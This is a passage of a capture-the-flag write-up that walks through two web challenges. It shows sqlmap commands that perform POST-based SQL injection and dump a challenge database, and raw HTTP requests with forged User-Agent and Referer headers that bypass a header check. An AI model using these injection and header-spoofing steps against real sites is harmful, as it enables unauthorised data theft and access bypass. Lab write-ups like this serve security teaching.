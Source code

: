 ```javascript
function hash() {
            document.form.password.value = md5(document.form.password.value);

            return true
        }
```

But ok, we have another choice, register.
So register a new account and login. Now we can see there is a search bar. And a hint under the bar.
> No hashbrowns came up for that search

Seems the search bar is vulnerable. Let's try to run sqlmap.

----
There are two ways to do POST injection via sqlmap

1. `sqlmap -r xxx.txt` <font color="blue">The xxx.txt is the POST request</font>
2. `sqlmap -u url  --data="name=value"`
----

Save the POST request as 1.txt and run sqlmap `sqlmap -r 1.txt --dbs --batch`
<font color="grey">For some users like me, the param --proxy is necessary.</font>
```
sqlmap -r 1.txt -D prehashbrown --table --batch
sqlmap -r 1.txt -D prehashbrown -T hashbrown --column  --batch --dump
```
And you can find the flag.

#### Don't Bump Your Head(er)
*hard* (actually it's medium)

Discription:Try to bypass my security measure on this site! http://165.227.106.113/header.php

Click the link and you will find that your user-agent isn't right. Type `F12` to view the source code and you can find `<!-- Sup3rS3cr3tAg3nt  -->`

So change the value of user-agent as `Sup3rS3cr3tAg3nt`
And send the request
```HTTP
GET http://165.227.106.113/header.php HTTP/1.1
Host: 165.227.106.113
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Sup3rS3cr3tAg3nt
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-TW;q=0.9,zh-CN;q=0.8,zh;q=0.7,fr;q=0.6
Connection: close
```

In the response, you can find `Sorry, it seems as if you did not just come from the site, "awesomesauce.com".`
Referer identifies the address of the webpage which is linked to the resource being requested. By checking referer, the new webpage can see where the request originated.
Referer should be `awesomesauce.com`
```HTTP
GET http://165.227.106.113/header.php HTTP/1.1
Host: 165.227.106.113
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Sup3rS3cr3tAg3nt
Referer: awesomesauce.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```